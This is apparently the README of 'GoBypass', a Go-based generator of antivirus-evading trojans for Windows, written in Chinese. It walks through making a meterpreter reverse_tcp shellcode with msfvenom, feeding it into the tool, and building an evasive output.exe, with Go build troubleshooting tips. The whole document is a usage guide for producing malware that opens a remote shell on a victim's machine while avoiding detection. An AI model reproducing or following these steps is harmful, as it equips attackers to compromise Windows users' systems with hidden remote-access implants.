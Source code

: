 # GoBypass

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）


### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

### 生成免杀马

使用命令：`go run main.go`即可在当前目录生成免杀马`output.exe`

注意：
1. 确保环境变量中有`go`否则无法编译
2. 如果报错请先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`